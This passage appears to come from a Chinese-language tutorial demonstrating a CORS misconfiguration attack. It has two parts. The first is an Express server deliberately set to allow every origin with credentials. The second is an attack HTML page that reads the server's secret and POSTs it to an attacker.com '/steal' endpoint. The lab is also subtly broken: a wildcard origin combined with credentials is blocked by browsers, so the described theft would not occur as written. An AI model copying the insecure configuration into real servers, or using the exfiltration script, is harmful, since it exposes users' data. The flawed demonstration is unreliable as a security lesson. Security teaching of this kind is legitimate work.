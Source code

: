 **步骤**：
1. 安装Node.js和Express.js。
2. 创建一个简单的Express服务器，配置CORS。
3. 启动服务器，使用Chrome浏览器进行测试。

**示例代码**：
```javascript
const express = require('express');
const cors = require('cors');
const app = express();

app.use(cors({
  origin: '*', // 配置错误，允许所有域名
  credentials: true
}));

app.get('/api/data', (req, res) => {
  res.json({ secret: 'This is sensitive data' });
});

app.listen(3000, () => {
  console.log('Server running on http://localhost:3000');
});
```

### 4.2 攻击步骤

**步骤**：
1. 启动Express服务器。
2. 构造恶意HTML页面，包含跨域请求脚本。
3. 在Chrome浏览器中打开恶意页面，观察数据被窃取。

**示例代码**：
```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS Exploit</title>
</head>
<body>
  <script>
    fetch('http://localhost:3000/api/data', {
      credentials: 'include'
    })
    .then(response => response.json())
    .then(data => {
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
  </script>
</body>
</html>
```
